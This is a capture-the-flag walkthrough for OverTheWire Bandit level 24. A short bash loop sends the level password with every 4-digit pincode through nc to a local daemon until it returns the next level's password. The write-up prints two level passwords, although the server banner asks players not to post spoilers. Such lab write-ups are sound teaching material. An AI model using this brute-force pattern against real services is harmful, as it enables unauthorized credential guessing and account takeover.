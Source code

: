 # LEVEL GOAL

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

# SOLUTION

`nikhilh@ubuntu:~/projects/overthewire-bandit/bandit24$ ssh -p 2220 bandit24@bandit.labs.overthewire.org`

This is a OverTheWire game server. More information on http://www.overthewire.org/wargames
bandit24@bandit.labs.overthewire.org's password: 
               
      ,----..            ,----,          .---. 
     /   /   \         ,/   .`|         /. ./|
    /   .     :      ,`   .'  :     .--'.  ' ;
   .   /   ;.  \   ;    ;     /    /__./ \ : |
  .   ;   /  ` ; .'___,/    ,' .--'.  '   \' .
  ;   |  ; \ ; | |    :     | /___/ \ |    ' ' 
  |   :  | ; | ' ;    |.';  ; ;   \  \;      : 
  .   |  ' ' ' : `----'  |  |  \   ;  `      |
  '   ;  \; /  |     '   :  ;   .   \    .\  ; 
   \   \  ',  /      |   |  '    \   \   ' \ |
    ;   :    /       '   :  |     :   '  |--"  
     \   \ .'        ;   |.'       \   \ ;     
  www. `---` ver     '---' he       '---" ire.org     
               
              
Welcome to OverTheWire!

If you find any problems, please report them to Steven or morla on
irc.overthewire.org.

--[ Playing the games ]--

  This machine might hold several wargames. 
  If you are playing "somegame", then:

    * USERNAMES are somegame0, somegame1, ...
    * Most LEVELS are stored in /somegame/.
    * PASSWORDS for each level are stored in /etc/somegame_pass/.

  Write-access to homedirectories is disabled. It is advised to create a
  working directory with a hard-to-guess name in /tmp/.  You can use the
  command "mktemp -d" in order to generate a random and hard to guess
  directory in /tmp/.  Read-access to both /tmp/ and /proc/ is disabled
  so that users can not snoop on eachother. Files and directories with 
  easily guessable or short names will be periodically deleted!
	
  Please play nice:
      
    * don't leave orphan processes running
    * don't leave exploit-files laying around
    * don't annoy other players
    * don't post passwords or spoilers
    * again, DONT POST SPOILERS! 
      This includes writeups of your solution on your blog or website!

--[ Tips ]--

  This machine has a 64bit processor and many security-features enabled
  by default, although ASLR has been switched off.  The following
  compiler flags might be interesting:

    -m32                    compile for 32bit
    -fno-stack-protector    disable ProPolice
    -Wl,-z,norelro          disable relro 

  In addition, the execstack tool can be used to flag the stack as
  executable on ELF binaries.

  Finally, network-access is limited for most levels by a local
  firewall.

--[ Tools ]--

 For your convenience we have installed a few usefull tools which you can find
 in the following locations:

    * peda (https://github.com/longld/peda.git) in /usr/local/peda/
    * gdbinit (https://github.com/gdbinit/Gdbinit) in /usr/local/gdbinit/
    * pwntools (https://github.com/Gallopsled/pwntools)
    * radare2 (http://www.radare.org/)
    * checksec.sh (http://www.trapkit.de/tools/checksec.html) in /usr/local/bin/checksec.sh

--[ More information ]--

  For more information regarding individual wargames, visit
  http://www.overthewire.org/wargames/

  For support, questions or comments, contact us through IRC on
  irc.overthewire.org #wargames.

  Enjoy your stay!

`bandit24@bandit:~$ mkdir /tmp/kenshin25`

`bandit24@bandit:~$ cd /tmp/kenshin25`

`bandit24@bandit:/tmp/kenshin25$ vim brute.sh`

`bandit24@bandit:/tmp/kenshin25$ cat brute.sh `

`#! /bin/bash`

`pass="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"`

`echo "" > pass_pin`

`for i in {0000..9999}`

`do`

`    echo $pass $i >> pass_pin`

`done`

`cat pass_pin | nc localhost 30002`

`bandit24@bandit:/tmp/kenshin25$ chmod 777 brute.sh`

`bandit24@bandit:/tmp/kenshin25$ ./brute.sh `

`I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.`

`Fail! You did not supply enough data. Try again.`

`Wrong! Please enter the correct pincode. Try again.`

`Wrong! Please enter the correct pincode. Try again.`

…

…

…

`Wrong! Please enter the correct pincode. Try again.`

`Correct!`

`The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG`

`Exiting.`
